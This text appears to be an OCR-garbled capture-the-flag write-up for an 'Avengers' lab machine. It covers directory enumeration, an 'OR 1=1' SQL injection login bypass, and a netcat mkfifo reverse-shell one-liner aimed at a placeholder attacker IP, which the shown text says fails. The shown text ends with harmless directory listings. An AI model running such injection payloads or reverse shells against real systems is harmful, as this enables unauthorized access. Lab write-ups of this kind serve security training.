 Looking at the gobuster results we see that  portal is an interesting directory  Going to this page we see the following 

     reports Avengers image15 png 

Looking at the html source code  see a pattern here   we see an interesting comment 

     reports Avengers image4 png 

SQLi stands for SQL injection and is a common problem that can have disastrous results in web servers  Thankfully  this vulnerability has been getting more publicized  and the frequency of successful attacks related to SQLi are decreasing 

Typing   OR 1 1     in the username and password  we get in 

     reports Avengers image1 png 

So   the developer though it would be a good idea to allow users to directly interact with the server through commands  Too easy  let s try an easy reverse shell using pentestmonkey   http   pentestmonkey net cheat sheet shells reverse shell cheat sheet  https   www google com url q http   pentestmonkey net cheat sheet shells reverse shell cheat sheet sa D source editors ust 1653956340026229 usg AOvVaw0wtnc8W3CDqlI9 pZsUQ9E  

On the attacker machine 

nc  lvnp  attacker port 

On the Jarvis command line 

rm  tmp f mkfifo  tmp f cat  tmp f  bin sh  i 2  1 nc  attacker ip   attacker port    tmp f

Unfortunately  when we run this we receive an error message 

     reports Avengers image16 png 

So let s just stick with harmless commands such as ls and cd so that we look around the files of this server  Let s see which files are in the directory we are in 

Jarvis command 

ls

Results 

create sql

node  modules

package lock json

package json

server js

views

Jarvis command 

cd    ls

Results 

avengers
